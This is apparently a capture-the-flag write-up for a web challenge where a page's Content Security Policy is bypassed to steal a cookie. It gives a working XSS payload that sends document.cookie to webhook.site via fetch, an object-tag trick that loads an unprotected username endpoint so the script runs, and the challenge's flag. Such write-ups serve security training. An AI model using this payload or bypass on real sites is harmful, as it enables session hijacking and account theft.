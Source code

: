 ```yaml
---
created: 2024-06-21T20:15
updated: 2024-08-05T09:52
points: 202
solves: 89
---
```


This page is protected by csp `default-src 'self', script-src 'none'`.

> Ignite it to steal the cookie!

After countless attempts, I've realised that no script will run basically.

But... the endpoint `/username/:id` is open and will return plain text username.
It does not have any CSP.

We can use this for our script payload.

```html
<script>fetch("https://webhook.site",{method:"POST",body:"flag ="+document.cookie})</script>
```

We will then just load it via a object tag in `profile`. This is kinda like a iframe, so CSP won't apply to contents within it.

```html
<object data="/username/e2b49e44-9419-4881-8144-72d17223e3f2" type="text/html"></object>
```

```flag
FLAG{n0scr1p4_c4n_be_d4nger0us}
```
